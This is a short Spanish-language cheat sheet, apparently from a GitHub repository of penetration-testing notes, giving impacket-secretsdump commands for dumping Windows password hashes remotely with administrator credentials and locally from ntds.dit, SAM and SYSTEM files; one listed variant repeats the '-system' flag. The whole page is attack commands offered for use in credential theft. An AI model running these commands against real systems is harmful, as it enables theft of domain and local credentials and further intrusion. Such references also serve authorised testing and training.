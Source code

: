 # SecretsDump Cheat Sheet

#### Dump Hashes - cuando tienes un usuario que pertenece al grupo Administrador
```
impacket-secretsdump <DOMAIN>/<USER>:<PASSWORD>@<IP-TARGET>
```

#### Extraer Hashes de archivos ntds.dit
```
impacket-secretsdump.py -ntds <FILE.dit> -system <FILE-SYSTEM> LOCAL
```

#### Extraer Hashes de SAM & SYSTEM
```
impacket-secretsdump.py -sam <FILE-SAM> -system <FILE-SYSTEM> LOCAL
ó
impacket-secretsdump.py -sam <FILE-SAM> -system <FILE-SYSTEM> -system <FILE-SYSTEM> LOCAL
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)